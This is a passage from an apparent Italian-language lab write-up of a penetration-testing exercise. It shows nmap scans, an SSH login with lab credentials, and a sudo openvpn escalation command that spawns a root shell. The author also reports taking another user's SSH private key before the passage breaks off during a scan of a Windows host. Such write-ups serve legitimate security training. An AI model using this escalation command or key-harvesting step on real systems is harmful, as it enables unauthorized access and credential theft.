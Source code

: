 ```bash
Nmap scan report for 192.168.171.122 (192.168.171.122)
Host is up (0.040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:f9:e1:44:6a:40:bc:90:e0:3f:1d:d8:86:bc:a9:3d (ECDSA)
|_  256 24:97:84:f2:58:53:7b:a3:f7:40:e9:ad:3d:12:1e:c7 (ED25519)
Aggressive OS guesses: Linux 2.6.32 (88%), Linux 2.6.32 or 3.10 (88%), Linux 3.5 (88%), Linux 4.4 (88%), Synology DiskStation Manager 5.1 (88%), WatchGuard Fireware 11.8 (88%), Linux 2.6.35 (87%), Linux 2.6.39 (87%), Linux 3.10 - 3.12 (87%), Linux 3.4 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accesso tramite ssh con le seguenti credenziali:

```bash
offsec:password
```

Una volta dentro ottengo la prima flag.

Successivamente, controllo i permessi sudo dell'utente:

```bash
Matching Defaults entries for offsec on vpn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User offsec may run the following commands on vpn:
    (ALL : ALL) /usr/sbin/openvpn
```

Vado su https://gtfobins.github.io/gtfobins/openvpn/#sudo e lancio questo comando:

```
sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
```

Divento root e ottengo la seconda flag.

Nella home c'è la cartella dell'utente mario e al suo interno trovo l'id_rsa dell'utente.

# 172.16.184.82 - CLIENT01 {pwned:proof}

```bash
nmap -sC -sV -O -p- 172.16.184.82
```

```bash
Nmap scan report for 172.16.184.82 (172.16.184.82)
Host is up (0.023s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MEDTECH
|   NetBIOS_Domain_Name: MEDTECH
|   NetBIOS_Computer_Name: CLIENT01
|   DNS_Domain_Name: medtech.com
|   DNS_Computer_Name: CLIENT01.medtech.com
|   DNS_Tree_Name: medtech.com
|   Product_Version: 10.0.22000
|_  System_Time: 2024-05-18T11:50:39+00:00
```